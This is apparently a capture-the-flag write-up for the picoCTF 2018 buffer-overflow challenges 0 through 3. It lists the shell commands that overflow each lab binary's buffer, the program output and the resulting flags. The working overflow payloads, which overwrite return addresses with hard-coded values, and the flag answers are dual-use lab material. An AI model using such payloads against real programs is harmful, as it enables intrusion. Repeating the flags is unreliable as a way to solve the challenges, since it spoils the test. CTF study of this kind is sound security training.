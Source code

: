 # buffer-overflow-0

```
pico-2018-shell:/problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d$ ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}
```

Flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}`

---

# buffer-overflow-1

```
pico-2018-shell:/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\xcb\x85\x04\x08' | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy3656a9b3}Segmentation fault (core dumped)
```

Flag: `picoCTF{addr3ss3s_ar3_3asy3656a9b3}`

---

# buffer-overflow-2

```
pico-2018-shell:/problems/buffer-overflow-2_1_63b4b691601811c553a7c19e367737b9$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD\xcb\x85\x04\x08XXXX\xef\xbe\xad\xde\xde\xc0\xad\xde" | ./vuln
Please enter your string:
#### our string will be printed here ####
picoCTF{addr3ss3s_ar3_3asy30833fa1}Segmentation fault (core dumped)
```

Flag: `picoCTF{addr3ss3s_ar3_3asy30833fa1}`

---

# buffer-overflow-3

[exploit](exploit3.py)

Flag: `picoCTF{eT_tU_bRuT3_F0Rc3_9bb35cfd}`